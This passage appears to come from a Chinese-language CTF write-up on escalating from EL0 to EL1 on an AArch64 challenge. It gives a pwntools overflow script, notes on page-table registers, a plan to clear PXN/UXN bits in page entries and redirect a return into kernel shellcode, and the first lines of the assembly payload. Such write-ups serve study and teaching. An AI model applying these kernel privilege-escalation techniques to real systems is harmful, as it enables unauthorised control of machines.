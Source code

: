 ```python
# call addr
r.sendlineafter('cmd> ', '0')
r.sendlineafter('index: ', b'A'*0x100 + p64(addr + 0x30))

input('>')
r.send(b'A'*8 + p64(print_el1_flag))

input('> ')
r.send(b'\x94')
r.interactive()
```



為了要做到 EL1 任意執行 shellcode，需要做下一步的準備。以下為 EL1 在使用 TTBR 的情況，當 address prefix 為 kernel mode 使用 TTBR1_EL1，當 address prefix 為 user mode 時使用 TTBR0_EL1：

![image-20211116213001312](C:\Users\jerry\AppData\Roaming\Typora\typora-user-images\image-20211116213001312.png)

而 TCR_EL1 的 **T0SZ** 與 **T1SZ** 是控制 range of address translation：

![image-20211116213232722](C:\Users\jerry\AppData\Roaming\Typora\typora-user-images\image-20211116213232722.png)

page walk — a translation from a virtual to a physical address

- 代價很高 (multiple lookups required to resolve a VA to PA)
- processors 用 translation cache called the Translation Lookaside Buffer (TLB) 來增加速度，AArch64 也使用相同的硬體機制
- Each Exception Level in AArch64, except for EL0 has one or more translation table registers
  - This means there can be at least three different virtual memory spaces (EL1, EL2, EL3)
- 開機 (boot) 時：
  - EL3 --> `TTBR0_EL3` and `TCR_EL3`
  - EL2 --> `VTTBR_EL2` and `VTCR_EL2`
  - EL1 --> `TTBR0_EL1` (user) and `TTBR1_EL1` ()





EL0 shellcode，會做以下的事情：

- `mmap()` 分配給 el1 執行的 shellcode region
  - 先用 RW
  - 寫完 shellcode 改成 RX
- 透過 pagewalk 找到描述該 VA 的 page entry，蓋掉 PXN 與 UXN (寫成 0x00)
- 分配一個新的 memory region flush TLB，避免 cache 住 page 的 upper attributes
- 在 `syscall_handler` 的 return 後方 + 0x30 處寫 el1 shellcode address
  - el1 shellcode address 會用 python script 傳入
- 透過將 return address overwrite 1 byte 成 `FFFFFFFFC0009430`，最終跳到我們寫的 el1 shellcode

```asm
.section .text
.global _start

_start: 
    // mmap(0, 0x1000, 3, 0, 0, -1)
    MOV X0, XZR // XZR is zero register
    MOV X1, #0x1000 // len=0x1000
    MOV W2, #3 // prot=rw
    MOV W3, #0 // fd=0
    MOV W4, #0 // flags=0
    MOV X5, #-1 // offset=-1
    MOV X8, #0xde
    SVC 0
    // will return 0x7ffeffffc000
    // pagewalk output: [last] ffffffffc0028fe0 -> 00007ffeffffc000: 0x0000000000035000 [PXN UXN ELx/RW]

    // X22 is shellcode page
```